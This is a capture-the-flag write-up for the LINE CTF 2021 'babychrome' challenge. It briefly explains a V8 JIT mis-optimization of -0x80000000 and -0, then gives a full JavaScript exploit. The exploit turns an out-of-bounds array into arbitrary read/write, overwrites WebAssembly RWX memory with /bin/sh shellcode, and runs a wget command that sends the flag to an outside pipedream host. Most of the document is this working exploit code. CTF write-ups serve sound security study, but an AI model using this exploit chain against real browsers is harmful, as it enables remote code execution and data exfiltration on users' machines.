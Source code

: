 # LINE CTF 2021 - Pwn - babychrome

## Solution

Incorrect optimization is performed for the calculation of -0x80000000, which is the minimum value of 32bit signed int, and -0. (Reference: https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)

It seems that the optimizer always determines `v5568` of `jit_func` as `0`, and when `arr.shift()` is executed for `arr = new Array(v5568)`, `arr.length` becomes `-1`.
OOB read/write is possible by using `arr`, but due to the bad type, it can mainly read and write only integers.
We can get full OOB read / write capability by placing the Packed Double Array after `arr` and overwriting its length with OOB.

Then, by placing the `Uint8Array` after the Packed Double Array and rewriting the pointer to the stored memory, AAR / AAW becomes possible.

Finally, create a WebAssembly module, search the address of the RWX memory from Heap, rewrite it with shellcode, and execute it.

## Exploit Code

```javascript
function jit_func(a, k) {
    let v16213 = 0 * -1;
    var v25608 = -0x80000000;

    if (a) {
        v16213 = -1;
        v25608 = 0;
    }

    var v19229 = ((v16213-v25608) == -0x80000000);

    if (a) {
        v19229 = -1;
    }

    let v5568 = Math.sign(v19229);

    if (v5568 < 0) v5568 = 0;

    const arr = new Array(v5568);
    arr.shift();

    const arr2 = [0.1, 0.2, 0.3];
    const obj = new Uint8Array(v5568 * 0x1200);
    const wm = k ? k() : null;
    const obj2 = new Array(v5568 * 0x4e);

    return [arr, arr2, obj, wm, obj2];
}

const buf = new ArrayBuffer(8);
const view = new DataView(buf);

const d2i = (x) => {
    if (x == null) throw Error("null?");
    view.setFloat64(0, x);
    return (BigInt(view.getUint32(0)) << 32n) + BigInt(view.getUint32(4));
};

const i2d = (x) => {
    if (typeof x !== "bigint") throw Error(`invalid type: ${typeof x}`);
    view.setUint32(0, Number(BigInt.asUintN(32, x >> 32n)));
    view.setUint32(4, Number(BigInt.asUintN(32, x)));
    return view.getFloat64(0);
};

const wr = (w, x) => String(x).padStart(w);

const exploit = ([d, e, view, wasm_module, ...rest]) => {
    d[16] = 128;
    const buf_addr = d2i(e[17]);

    const www = (d2i(e[44]) >> 32n | (d2i(e[45]) & 0xFFFFFFFFn) << 32n);

    e[17] = i2d(www);

    const arr2i = (a) => {
        let x = 0n;
        for (let k = 0; k < 8; ++k) {
            x |= BigInt(a[k]) << BigInt(k * 8);
        }
        return x;
    };
    
    const addr = arr2i(view.slice(24, 32));

    e[17] = i2d(addr - 0x400n);

    nums = []
    for (let i = 0; i < 128; ++i) {
        for (let j = 0; j < 2; ++j) {
            const beg = i * 16 + j * 8;
            const x = arr2i(view.slice(beg, beg + 8));
            nums.push(x);
        }
    }

    let rwx_addr = null;

    for (let i = 0; i < nums.length - 4; ++i) {
        if (
            ((nums[i] & 0xFFFFFFFFn) === 1n) &&
            (nums[i + 1] + 0x1000n === nums[i + 2]) &&
            ((nums[i + 2] & 0xFFFn) === 0n) &&
            ((nums[i + 4] & 0xFFFFFFFFn) === 0x31n)
        ) {
            rwx_addr = nums[i + 1];
            break;
        }
    }

    if (rwx_addr) {
        e[17] = i2d(rwx_addr);
        const shellcode = [72, 185, 136, 119, 102, 85, 68, 51, 34, 17, 104, 45, 99, 0, 0, 72, 184, 47, 98, 105, 110, 47, 115, 104, 0, 80, 72, 137, 231, 106, 0, 81, 72, 141, 71, 8, 80, 87, 72, 137, 230, 49, 210, 184, 59, 0, 0, 0, 15, 5];
        for (let i = 0; i < 8; ++i) {
            shellcode[i + 2] = Number((buf_addr >> BigInt(8 * i)) & 0xFFn);
        }
        for (let i = 0; i < shellcode.length; i++) {
            view[i] = shellcode[i];
        }
        e[17] = i2d(buf_addr);

        const command = `wget "https://en6fa1x8r13pp.x.pipedream.net/$(cat flag)"`;
        for (let i = 0; i < command.length; i++) {
            view[i] = command.charCodeAt(i);
        }

        const wasm_instance = new WebAssembly.Instance(wasm_module);
        const a = new String('helloworld');
        const wasm_func = wasm_instance.exports.a;

        wasm_func();
    }
};

const wasm_code = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
    0x01, 0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x60,
    0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80,
    0x00, 0x01, 0x00, 0x06, 0x81, 0x80, 0x80, 0x80,
    0x00, 0x00, 0x07, 0x85, 0x80, 0x80, 0x80, 0x00,
    0x01, 0x01, 0x61, 0x00, 0x00, 0x0a, 0x8a, 0x80,
    0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80,
    0x00, 0x00, 0x41, 0x00, 0x0b
]);

jit_func(false);
jit_func(true);

for (let i = 0; i < 0x10000; i++) {
    jit_func(true);
}

function gc() {
    for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x10000); }
}
gc();

exploit(jit_func(false, () => new WebAssembly.Module(wasm_code)));
```